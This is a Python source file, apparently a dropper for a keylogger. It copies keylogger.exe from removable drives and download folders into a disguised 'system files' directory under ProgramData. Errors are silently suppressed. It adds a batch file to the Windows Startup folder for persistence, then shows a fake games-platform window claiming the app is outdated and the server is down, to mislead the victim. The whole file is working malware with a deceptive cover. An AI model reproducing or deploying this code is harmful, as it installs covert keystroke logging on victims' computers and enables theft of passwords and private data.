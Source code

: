 # PYTHON-NOTE

# only for system windows
from tkinter import *
from PIL import ImageTk,Image
import os
import os.path
from shutil import copyfile
from contextlib import suppress
import time
import tkinter.font as font


USER_PROFILE = (os.environ['USERPROFILE'])



def window_app():
    window1 = Tk()
    window1.title("Platforma pełna wspaniałych gier")
    obraz = ImageTk.PhotoImage(Image.open("C:\\Users\\xarve\Desktop\ori.jpg"))
    mylabel = Label(image=obraz)
    window1.title("wersja 2019.v2")
    mylabel.pack()

    myFont = font.Font(family='Arial', size=15, weight='bold')

    button_window = Button(window1,
                           text="APLIKACJA JEST PRZESTARZAŁA... SERWER NIE ODPOWIADA, \n\nKLIKIJ ABY ZAKOŃCZYĆ",
                           height=5, bg='lightblue', fg='black', command=window1.quit)
    button_window['font'] = myFont
    button_window.pack()
    window1.mainloop()




def copy_pase():

        with suppress(Exception):
            copyfile('D:/keylogger.exe', 'C:/ProgramData/pliki_systemowe/keylogger.exe')
        with suppress(Exception):
            copyfile('E:/keylogger.exe', 'C:/ProgramData/pliki_systemowe/keylogger.exe')
        with suppress(Exception):
            copyfile('F:/keylogger.exe', 'C:/ProgramData/pliki_systemowe/keylogger.exe')
        with suppress(Exception):
            copyfile('G:/keylogger.exe', 'C:/ProgramData/pliki_systemowe/keylogger.exe')
        with suppress(Exception):
            copyfile('H:/keylogger.exe', 'C:/ProgramData/pliki_systemowe/keylogger.exe')
        with suppress(Exception):
            copyfile('I:/keylogger.exe', 'C:/ProgramData/pliki_systemowe/keylogger.exe')
        with suppress(Exception):
            copyfile('Downloads/keylogger.exe', 'C:/ProgramData/pliki_systemowe/keylogger.exe')
        with suppress(Exception):
            copyfile('Pobrane/keylogger.exe', 'C:/ProgramData/pliki_systemowe/keylogger.exe')




def add_to_startup(file_path='C:/ProgramData/pliki_systemowe/keylogger.exe'):
    if file_path == "":
        file_path = os.path.dirname(os.path.realpath(__file__))
    bat_path = r'%s\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup' % USER_PROFILE
    with open(bat_path + '\\' + "open.bat", "w") as bat_file:
        bat_file.write(r'@echo off'+ os.linesep)   ## to hide console batch file when it run
        bat_file.write(r'start "" %s' % file_path)



path = "C:\\ProgramData\pliki_systemowe"
if not os.path.exists(path):
    os.makedirs(path)
    time.sleep(2)



time.sleep(2)
copy_pase()
time.sleep(2)
add_to_startup()
window_app()
